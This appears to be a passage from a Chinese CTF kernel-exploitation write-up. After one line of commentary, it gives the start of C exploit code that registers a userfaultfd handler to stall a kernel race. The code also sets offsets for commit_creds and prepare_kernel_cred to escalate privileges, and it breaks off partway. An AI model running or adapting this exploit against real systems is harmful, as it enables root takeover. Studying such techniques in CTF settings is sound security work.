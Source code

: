    这样调用。看来 233 这个数确实还是有一些魔力。

#### exp

```cpp
#include <stdio.h>
#include <stdlib.h>
#include <fcntl.h>
#include <syscall.h>
#include <poll.h>
#include <unistd.h>
#include <pthread.h>
#include <string.h>
#include <stdint.h>
#include <linux/userfaultfd.h>
#include <sys/ioctl.h>
#include <sys/mman.h>
#include <assert.h>

#define PAGE_SIZE 0x1000
#define TTY_STRUCT_SZIE 0x2E0

size_t work_for_cpu_fn_off = 0xffffffff8949eb90 - 0xffffffff8a28e440;
size_t prepare_kernel_cred_off = 0xffffffffa14a9ef0 - 0xffffffffa228e440;
size_t commit_creds_off = 0xffffffffa14a9b40 - 0xffffffffa228e440;
size_t kernel_base;

struct userarg
{
	size_t idx;
	size_t size;
	void* buf;
};

int note_fd;
void* stuck_mapped_memory;

void ErrExit(char* err_msg)
{
	puts(err_msg);
	exit(-1);
}

void RegisterUserfault(void *fault_page, void* handler)
{
	pthread_t thr;
	struct uffdio_api ua;
	struct uffdio_register ur;
	uint64_t uffd  = syscall(__NR_userfaultfd, O_CLOEXEC | O_NONBLOCK);
	ua.api = UFFD_API;
	ua.features    = 0;
	if (ioctl(uffd, UFFDIO_API, &ua) == -1)
		ErrExit("[-] ioctl-UFFDIO_API");

	ur.range.start = (unsigned long)fault_page; //我们要监视的区域
	ur.range.len   = PAGE_SIZE;
	ur.mode        = UFFDIO_REGISTER_MODE_MISSING;
	if (ioctl(uffd, UFFDIO_REGISTER, &ur) == -1) //注册缺页错误处理，当发生缺页时，程序会阻塞，此时，我们在另一个线程里操作
		ErrExit("[-] ioctl-UFFDIO_REGISTER");
	//开一个线程，接收错误的信号，然后处理
	int s = pthread_create(&thr, NULL,handler, (void*)uffd);
	if (s!=0)
		ErrExit("[-] pthread_create");
}
```